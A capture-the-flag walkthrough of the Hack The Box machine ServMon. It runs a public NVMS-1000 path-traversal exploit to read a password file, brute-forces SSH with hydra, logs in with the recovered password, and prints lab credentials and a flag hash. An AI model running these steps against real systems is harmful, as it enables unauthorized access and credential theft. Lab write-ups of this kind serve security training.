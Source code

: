### 15-Mar-24-Fri

[ServMon](https://app.hackthebox.com/machines/ServMon)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/44ff979e-f709-4978-92e5-218b42345017)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2b171915-d18e-4c3a-a234-7438ffd5a8d4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5b193143-2df7-40de-8e91-006d66149650)

*Notes to do.txt*

```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

*Confidential.txt*

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py

```
python nvms.py 10.129.219.191 Users/Nathan/Desktop/Passwords.txt Passwords.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a6a801b5-d25f-49db-a382-e77cc9e8a3ff)

```
++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

```
hydra -L Users.txt -P Passwords.txt ssh://10.129.219.191:22 -t 4 -V
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd576dbb-3b39-494d-bd2b-39524ca532d4)

```
[22][ssh] host: 10.129.219.191   login: Nadine   password: L1k3B1gBut7s@W0rk
```

```
ssh Nadine@10.129.219.191
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/61d7350e-59a4-4411-9e2c-63a745a88e56)

```
eba203a9c395aef828f6801967cca9bd
```

```
type nsclient.ini
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9059e2c6-e2cd-4b7e-8176-9009408bb4f8)


